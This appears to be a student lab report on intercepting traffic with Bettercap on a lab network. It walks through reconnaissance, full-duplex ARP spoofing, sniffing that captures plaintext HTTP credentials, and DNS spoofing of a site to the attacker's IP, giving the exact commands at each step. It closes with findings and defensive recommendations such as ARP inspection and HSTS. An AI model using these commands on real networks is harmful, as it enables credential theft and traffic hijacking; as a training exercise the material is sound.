




Real-Time Network Traffic Monitoring and Analysis
using Bettercap for Motion Modexys
NAME: ARUN M
KIT ID: 82375
Phase 1: Environment Setup & Initialization
Bettercap is installed and launched on the Kali Linux system. Root privileges are required to perform packet manipulation.
sudo apt update && sudo apt install bettercap
sudo bettercap
sudo bettercap

Bettercap Installation

Interactive Shell
Phase 2: Network Reconnaissance
net.probe on: Sends active probe packets to discover hidden live devices.
net.show: Displays updated host tables, identifying the target Windows system.
net.show: Displays updated host tables, identifying the target Windows system.
net.probe on
net.show
net.show

Initial Network View

Probe Execution

Hosts Discovered
Phase 3: MITM & ARP Spoofing
By enabling fullduplex, we intercept traffic in both directions. The attacker machine positions itself between the gateway and the target IP.
set arp.spoof.fullduplex true
set arp.spoof.targets 192.168.95.129
arp.spoof on
set arp.spoof.targets 192.168.95.129
arp.spoof on

ARP Spoof Module

Full Duplex Enabled

Target Assignment
Phase 4 & 5: Traffic Sniffing & Credential Capture
net.sniff: Real-time packet analysis reveals plaintext HTTP credentials and DNS queries intercepted from the target.
set net.sniff.local true
net.sniff on
net.sniff on

Traffic Sniffing

HTTP Credential Capture
Phase 6: DNS Spoofing Demonstration
Requests for motionmodexys.com are redirected to the attacker's IP (hosting an Apache server) using dns.spoof.
set dns.spoof.domains motionmodexys.com
set dns.spoof.address 192.168.95.132
dns.spoof on
set dns.spoof.address 192.168.95.132
dns.spoof on

DNS Configuration

DNS Spoof Impact
Key Vulnerability Findings
Plaintext HTTP/DNS traffic exposed.
Lack of Dynamic ARP Inspection (DAI).
Absence of HSTS on Motion Modexys resources.
Successful credential exfiltration.
Strategic Recommendations
Deploy DHCP Snooping on switches.
Force Global HTTPS/HSTS.
Implement Static ARP for critical servers.
Enable VPN for all remote traffic.